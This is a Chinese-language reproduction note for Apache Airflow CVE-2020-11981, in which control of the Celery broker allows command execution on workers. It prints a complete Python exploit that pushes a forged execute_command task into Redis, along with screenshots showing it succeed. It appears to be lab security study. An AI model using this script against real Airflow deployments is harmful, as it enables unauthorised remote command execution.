 # Apache-Airflow Celery 消息中间件命令执行

> 漏洞说明

Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前，如果攻击者控制了Celery的消息中间件（如Redis/RabbitMQ），将可以通过控制消息，在Worker进程中执行任意命令。



> 前提条件

需要控制消息中间件

版本：Apache Airflow <= 1.10.10



> 利用工具

[exploit_airflow_celery.py](https://github.com/vulhub/vulhub/blob/master/airflow/CVE-2020-11981/exploit_airflow_celery.py)



> 漏洞复现

利用脚本命令执行

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch','/tmp/tomato']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))
```

安装redis库

![image-20221217221509419](../img/Apache-Airflow_CVE-2020-11981/image-20221217221509419.png)

执行脚本

![image-20221217225041052](../img/Apache-Airflow_CVE-2020-11981/image-20221217225041052.png)

命令执行成功

![image-20221217225215904](../img/Apache-Airflow_CVE-2020-11981/image-20221217225215904.png)



